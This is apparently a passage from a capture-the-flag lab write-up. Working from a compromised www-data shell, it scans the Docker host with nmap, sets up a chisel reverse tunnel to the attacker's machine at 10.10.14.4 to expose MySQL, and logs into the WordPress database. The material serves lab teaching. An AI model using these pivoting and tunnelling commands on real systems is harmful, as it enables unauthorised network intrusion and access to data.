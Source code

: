 ```

www-data@8e3a72b5e980:/tmp$

www-data@8e3a72b5e980:/tmp$ NMAPDIR=/tmp/usr/share/nmap ./nmap 172.17.0.1

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2025-05-02 03:24 UTC
Cannot find nmap-payloads. UDP payloads are disabled.
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 172.17.0.1
Host is up (0.00061s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

After that we can port forward with chisel to access it using `mysql` client

```
./chisel server --reverse -p 8002
2025/05/02 03:28:44 server: Reverse tunnelling enabled
2025/05/02 03:28:44 server: Fingerprint 1hxj30GlqyNbVi1KQfRhht1LzUBTr/h5fiWjUsRipOQ=
2025/05/02 03:28:44 server: Listening on http://0.0.0.0:8002
2025/05/02 03:28:59 server: session#1: tun: proxy#R:3306=>172.17.0.1:3306: Listening
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@8e3a72b5e980:/tmp$ ./chisel client 10.10.14.4:8002 R:3306:172.17.0.1:3306
2025/05/02 03:28:57 client: Connecting to ws://10.10.14.4:8002
2025/05/02 03:29:00 client: Connected (Latency 307.554524ms)
```

![DESC](file-20250504204603880.png)

We can now access the db with

```
mysql -u wp_user -p -h 127.0.0.1
mysql: Deprecated program name. It will be removed in a future release, use '/usr/bin/mariadb' instead
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 3029
Server version: 8.0.32 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| wordpress          |
+--------------------+
3 rows in set (0.252 sec)

MySQL [(none)]> use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```